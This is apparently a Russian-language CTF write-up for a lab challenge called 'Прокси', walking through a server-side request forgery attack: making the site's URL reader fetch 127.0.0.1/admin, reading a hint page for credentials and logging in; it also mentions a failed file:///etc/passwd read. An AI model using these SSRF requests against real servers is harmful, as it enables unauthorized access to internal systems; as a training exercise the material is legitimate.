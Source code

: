 # Прокси: Write-up #
Попадая на сайт, видим поле для ввода ссылки и несколько тестовых ссылок. Судя по всему, сайт просто выводит документы, ссылки на которых мы указываем. Попробуйте написать `https://google.com`. 
А вот системные файлы не читаются, так что никаких `file:///etc/passwd`. А жаль...

Судя из описания таска, где-то нужно получить доступ. На сайтах доступ к тем или иным разделам может регулироваться через файл `robots.txt`, который мы откроем: `http://62.173.140.174:16010/robots.txt`

    Disallow: /admin/

Ага, уже что-то интересное. Попытки самим открыть этот раздел безуспешны - на нас распространяется ограничение. Если попытаться открыть через сайт, то результат будет тот же.

Видимо, никто, кроме самого сервера, не сможет его открыть. Погодите-ка... А пусть в эту поисковую строку полезет `http://127.0.0.1/admin`!
Тогда сервер будет обращаться к самому себе, но как сервер, а не как сторонний клиент! И вот, что мы видим:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
  </head>
  <body> Срочные задачи для дальнейшего развития проекта: <br>
    1. Сделать прототип прокси-читалки (Сделано) <br>
    2. Добавить админку в robots.txt (Сделано) <br>
    3. Добавить ограничение по IP к админке (Сделано) <br>
    4. Доработать отображение текста в читалке (НЕ сделано) <br>
    5. Добавить авторизацию на все страницы админки (НЕ сделано) <br>
    6. Сменить HTTP-метод авторизации на panel.php (НЕ сделано) <br>
  </body>
</html>
```

Насчёт пункта 3 вопросов нет - сделано просто шикарно)) Но нас интересует пункт 6. Видимо, в разделе `admin` есть `panel.php`, но т.к. на этот раздел у нас ограничение, то открываем его через читалку: `http://127.0.0.1/admin/panel.php`

```html
Для того, чтобы получить доступ введите имя пользователя и пароль!
<form method="GET" action="/admin/panel.php">
  <input type="text" name="username">
  <input type="password" name="password">
</form>
```
Пробуем подобрать креды: `http://127.0.0.1/admin/panel.php?username=admin&password=admin`

```html

Аутенфикация провалена! Проверьте вводимые данные! <br>
Подсказка пароля: <a href='/admin/hint.php'>нажмите сюда</a>
<form method="GET" action="/admin/panel.php">
  <input type="text" name="username">
  <input type="password" name="password">
</form>
```
Теперь тем же способом лезем в `hint.php`

    admin:h4ck3rcr4cker

Опа, вот и креды. Логинимся и получаем вкусняшку: `CODEBY{************}`
